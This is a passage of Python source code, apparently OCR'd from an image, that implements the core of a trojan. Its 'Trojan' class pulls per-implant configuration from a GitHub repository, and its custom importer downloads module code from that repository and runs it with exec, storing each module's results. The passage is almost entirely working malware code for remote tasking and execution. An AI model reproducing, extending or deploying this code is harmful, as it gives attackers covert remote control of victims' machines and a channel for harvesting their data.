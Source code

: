 ```python
    return file.decoded

class GitImporter:
    """Custom module loader to fetch and execute modules from GitHub."""
    def __init__(self, repo):
        self.current_module_code = ""
        self.repo = repo

    def find_module(self, name, path=None):
        print(f"[*] Attempting to retrieve {name}")
        try:
            new_lib = get_file_content('modules', f'{name}.py', self.repo)
            if new_lib:
                self.current_module_code = new_lib.decode('utf-8')  
                return self
        except Exception as e:
            print(f"[!] Error retrieving module {name}: {e}")
        return None

    def load_module(self, name):
        if name in sys.modules:
            return sys.modules[name]

        spec = importlib.util.spec_from_loader(name, loader=None)
        new_module = importlib.util.module_from_spec(spec)

        try:
            exec(self.current_module_code, new_module.__dict__)
        except SyntaxError as e:
            print(f"[!] Syntax error in module {name}: {e}")
            return None 

        sys.modules[name] = new_module
        return new_module

class Trojan:
    """Main Trojan class to manage module execution."""
    def __init__(self, id, repo):
        self.id = id
        self.config_file = f'{id}.json'
        self.data_path = f'data/{id}/'
        self.repo = repo

    def get_config(self):
        """Fetches the configuration file and imports required modules."""
        try:
            config_json = get_file_content('config', self.config_file, self.repo)
            config = json.loads(config_json)

            for task in config:
                if task['module'] not in sys.modules:
                    __import__(task['module']) 

            return config
        except Exception as e:
            print(f"[!] Error loading config: {e}")
            return []

    def module_runner(self, module):
        """Runs a specified module and stores the result."""
        try:
            result = sys.modules[module].run()
            self.store_module_result(result)
```
